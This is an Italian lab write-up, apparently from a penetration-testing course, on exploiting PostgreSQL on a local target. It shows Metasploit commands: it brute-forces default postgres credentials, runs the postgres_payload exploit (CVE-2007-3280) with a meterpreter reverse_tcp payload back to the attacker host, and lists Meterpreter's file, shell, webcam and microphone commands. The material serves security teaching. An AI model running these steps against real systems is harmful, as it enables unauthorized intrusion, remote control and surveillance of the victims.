

# POSTGRESQL

Postgres è un RDBMS FOSS molto utilizzato e pensato per la gestione di grandi quantità di dati con facile scalabilità. Nella nostra macchina target è esposto un daemon postgres sulla posta standard 5432, vediamo quindi innanzitutto l'output relativo ottenuto dall'enumeration:

```
[*] Nmap: PORT      STATE  SERVICE
[*] Nmap: 5432/tcp  open   postgresql
[*] Nmap: | ssl-ccs-injection:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   SSL/TLS MITM vulnerability (CCS Injection)
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |     Risk factor: High
[*] Nmap: |       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
[*] Nmap: |       does not properly restrict processing of ChangeCipherSpec messages,
[*] Nmap: |       which allows man-in-the-middle attackers to trigger use of a zero
[*] Nmap: |       length master key in certain OpenSSL-to-OpenSSL communications, and
[*] Nmap: |       consequently hijack sessions or obtain sensitive information, via
[*] Nmap: |       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
[*] Nmap: |
[*] Nmap: |     References:
[*] Nmap: |       http://www.openssl.org/news/secadv_20140605.txt
[*] Nmap: |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
[*] Nmap: |_      http://www.cvedetails.com/cve/2014-0224
[*] Nmap: | ssl-dh-params:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Diffie-Hellman Key Exchange Insufficient Group Strength
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |       Transport Layer Security (TLS) services that use Diffie-Hellman groups
[*] Nmap: |       of insufficient strength, especially those using one of a few commonly
[*] Nmap: |       shared groups, may be susceptible to passive eavesdropping attacks.
[*] Nmap: |     Check results:
[*] Nmap: |       WEAK DH GROUP 1
[*] Nmap: |             Cipher Suite: TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA
[*] Nmap: |             Modulus Type: Safe prime
[*] Nmap: |             Modulus Source: Unknown/Custom-generated
[*] Nmap: |             Modulus Length: 1024
[*] Nmap: |             Generator Length: 8
[*] Nmap: |             Public Key Length: 1024
[*] Nmap: |     References:
[*] Nmap: |_      https://weakdh.org
[*] Nmap: | ssl-poodle:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   SSL POODLE information leak
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |     IDs:  BID:70574  CVE:CVE-2014-3566
[*] Nmap: |           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
[*] Nmap: |           products, uses nondeterministic CBC padding, which makes it easier
[*] Nmap: |           for man-in-the-middle attackers to obtain cleartext data via a
[*] Nmap: |           padding-oracle attack, aka the "POODLE" issue.
[*] Nmap: |     Disclosure date: 2014-10-14
[*] Nmap: |     Check results:
[*] Nmap: |       TLS_RSA_WITH_AES_128_CBC_SHA
[*] Nmap: |     References:
[*] Nmap: |       https://www.imperialviolet.org/2014/10/14/poodle.html
[*] Nmap: |       https://www.securityfocus.com/bid/70574
[*] Nmap: |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
[*] Nmap: |_      https://www.openssl.org/~bodo/ssl-poodle.pdf
[*] Nmap: |_sslv2-drown:
```

Come si nota gli exploit sono tutti relativi ad attacchi di tipo man-in-the-middle basati su implementazioni errate del protocollo ssl/tls, ad esempio la prima, che ci viene segnalata come vulnerabile, permette ad un MITM di fabbricare ad arte un handshake con master key di lunghezza nulla tramite un messaggio di tipo __Change Cypher Spec__ non opportunamente ristretto. Nel nostro caso però un attacco MITM non avrebbe molto senso e richiederebbe un terzo nodo di rete. Andiamo quindi ad interrogare `msfconsole` con una ricerca generica su questo servizio.

```
msf6 > search postgres

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   1   post/linux/gather/enum_users_history                                         normal     No     Linux Gather User History
   2   exploit/multi/http/manage_engine_dc_pmp_sqli                2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   3   exploit/windows/misc/manageengine_eventlog_analyzer_rce     2015-07-11       manual     Yes    ManageEngine EventLog Analyzer Remote Code Execution
   4   auxiliary/admin/http/manageengine_pmp_privesc               2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   5   auxiliary/analyze/crack_databases                                            normal     No     Password Cracker: Databases
   6   exploit/multi/postgres/postgres_copy_from_program_cmd_exec  2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
   7   exploit/multi/postgres/postgres_createlang                  2016-01-01       good       Yes    PostgreSQL CREATE LANGUAGE Execution
   8   auxiliary/scanner/postgres/postgres_dbname_flag_injection                    normal     No     PostgreSQL Database Name Command Line Flag Injection
   9   auxiliary/scanner/postgres/postgres_login                                    normal     No     PostgreSQL Login Utility
   10  auxiliary/admin/postgres/postgres_readfile                                   normal     No     PostgreSQL Server Generic Query
   11  auxiliary/admin/postgres/postgres_sql                                        normal     No     PostgreSQL Server Generic Query
   12  auxiliary/scanner/postgres/postgres_version                                  normal     No     PostgreSQL Version Probe
   13  exploit/linux/postgres/postgres_payload                     2007-06-05       excellent  Yes    PostgreSQL for Linux Payload Execution
   14  exploit/windows/postgres/postgres_payload                   2009-04-10       excellent  Yes    PostgreSQL for Microsoft Windows Payload Execution
   15  auxiliary/scanner/postgres/postgres_hashdump                                 normal     No     Postgres Password Hashdump
   16  auxiliary/scanner/postgres/postgres_schemadump                               normal     No     Postgres Schema Dump
   17  auxiliary/admin/http/rails_devise_pass_reset                2013-01-28       normal     No     Ruby on Rails Devise Authentication Password Reset
```

Come si nota, la entry numero 13 prevede l'esecuzione di un payload su un'istanza postgres su linux il cui rank è classificato come excellent. Andiamo ad approfondire con il comando info.

```
msf6 > info 13

       Name: PostgreSQL for Linux Payload Execution
     Module: exploit/linux/postgres/postgres_payload
   Platform: Linux
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-06-05

Provided by:
  midnitesnake
  egypt <egypt@metasploit.com>
  todb <todb@metasploit.com>
  lucipher

Available targets:
  Id  Name
  --  ----
  0   Linux x86
  1   Linux x86_64

Check supported:
  Yes

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  DATABASE  template1        yes       The database to authenticate against
  PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
  RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT     5432             yes       The target port
  USERNAME  postgres         yes       The username to authenticate as
  VERBOSE   false            no        Enable verbose output

Payload information:
  Space: 65535

Description:
  On some default Linux installations of PostgreSQL, the postgres 
  service account may write to the /tmp directory, and may source UDF 
  Shared Libraries from there as well, allowing execution of arbitrary 
  code. This module compiles a Linux shared object file, uploads it to 
  the target host via the UPDATE pg_largeobject method of binary 
  injection, and creates a UDF (user defined function) from that 
  shared object. Because the payload is run as the shared object's 
  constructor, it does not need to conform to specific Postgres API 
  versions.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2007-3280
  http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt

```

Metasploit ci dice dunque che questo exploit sfrutta una vulnerabilità nel modo in cui postgres carica le cosiddette Database Link Libraries e permette di ottenere Remote Code Execution. Per iniziare l'exploit vediamo le opzioni da settare:

```
msf6 exploit(linux/postgres/postgres_payload) > options

Module options (exploit/linux/postgres/postgres_payload):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  		          no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   USERNAME  		          yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

Vediamo che tra le opzioni configurabili ci sono anche username e password, che teoricamente non conosciamo. Vediamo però dalla ricerca precedente che è presente un modulo ausiliario denominato `postgres_login`, e ci permette con un attacco a semi-forza bruta di cercare automaticamente delle credenziali di login. Vediamo quindi i risultati dell'esecuzione:

 </br>

Abbiamo quindi trovato una coppia user/password funzionante, torniamo all'exploit e settiamo le opzioni.

```
msf6 exploit(linux/postgres/postgres_payload) > set USERNAME postgres
USERNAME => postgres
msf6 exploit(linux/postgres/postgres_payload) > set PASSWORD postgres
PASSWORD => postgres
msf6 exploit(linux/postgres/postgres_payload) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf6 exploit(linux/postgres/postgres_payload) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
```

Lanciamo l'exploit e come vediamo dalla figura otteniamo una sessione di meterpreter, siamo quindi entrati in controllo della macchina target!

 </br>

## Meterpreter

Facciamo quindi una piccola digressione teorica su meterpreter, questo tool fornito sempre dagli sviluppatori di Rapid7, è un payload estensibile dinamicamente tramite injection in memoria di moduli detti stagers. L'estensione più essere comandata tramite messaggi dalla macchina remota via rete.
Nel dettaglio, meterpreter si avvia a stadi:
- Il target esegue il primo stager, di solito uno tra i moduli bind e reverse.
- Lo stager carica la DLL chiamata Reflexive in memoria. 
- Si inizializza il core di Meterpreter sul target e si crea una connessione TLS/1.0 con l'attaccante sulla socket predefinita
- Infine, si caricano le estensioni

Meterpreter si propone di essere furtivo, risiedendo esclusivamente in RAM, non creando nessun nuovo processo e utilizzando solo comunicazioni crittografate. Il tool è inoltre potente ed estensibile, prevede una lunga serie di funzionalità, quali un keylogger e dei moduli per accesso a periferiche di input quali microfoni e webcam. Vediamo una panoramica dei comandi di Meterpreter lanciando il comando `help`.

```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Stdapi: Mic Commands
====================

    Command       Description
    -------       -----------
    listen        listen to a saved audio recording via audio player
    mic_list      list all microphone interfaces
    mic_start     start capturing an audio stream from the target mic
    mic_stop      stop capturing audio


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system

```
